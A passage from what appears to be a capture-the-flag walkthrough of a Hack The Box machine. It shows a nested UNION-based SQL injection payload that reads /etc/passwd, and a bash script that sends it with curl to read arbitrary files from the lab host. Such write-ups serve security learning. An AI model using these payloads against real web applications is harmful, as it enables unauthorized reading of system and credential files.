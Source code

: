 Now that I can control the outcome for the first query, I'm going to "nest" another UNION-based injection to bypass the second query and control the file path.

```
' UNION ALL SELECT "' UNION ALL SELECT '/etc/passwd' -- avengers" -- endgame
```

<a class="image-popup">
![b81b10c0.png](/assets/images/posts/unattended-htb-walkthrough/b81b10c0.png)
</a>

Awesome but I need a better display. Towards that end, I wrote a `bash` script to help me read files.

<div class="filename"><span>read</span></div>

```bash
#!/bin/bash

HOST=www.nestedflanders.htb
URL="https://$HOST/index.php?id=465"
FILE="$1"
SQL=%27%20UNION%20ALL%20SELECT%20%22%27%20UNION%20ALL%20SELECT%20%27$FILE%27%20--%20avengers%22%20--%20endgame
curl -c cookie \
     -k \
     -s \
     -o /dev/null \
     $URL

curl -b cookie \
     -k \
     -s \
     ${URL}${SQL} \
| sed '27,$!d' \
| head -n -8

```